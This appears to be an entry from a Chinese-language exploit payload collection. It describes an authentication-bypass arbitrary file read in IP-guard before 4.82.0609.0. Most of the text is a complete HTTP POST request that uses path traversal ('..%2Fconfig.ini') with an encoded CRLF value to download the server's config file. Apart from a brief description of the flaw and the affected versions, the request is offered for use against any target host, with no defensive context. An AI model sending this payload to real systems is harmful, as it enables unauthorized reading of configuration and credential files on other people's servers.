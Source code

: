 **漏洞描述：**

由于权限验证机制中存在设计缺陷，攻击者能够规避安全验证，通过后端接口执行文件的任意读取操作。

**影响版本：**

IP-guard < 4.82.0609.0

**Payload：**

```yaml
POST /ipg/appr/MApplyList/downloadFile_client/getdatarecord HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

path=..%2Fconfig.ini&filename=1&action=download&hidGuid=1v%0D%0A
```

---

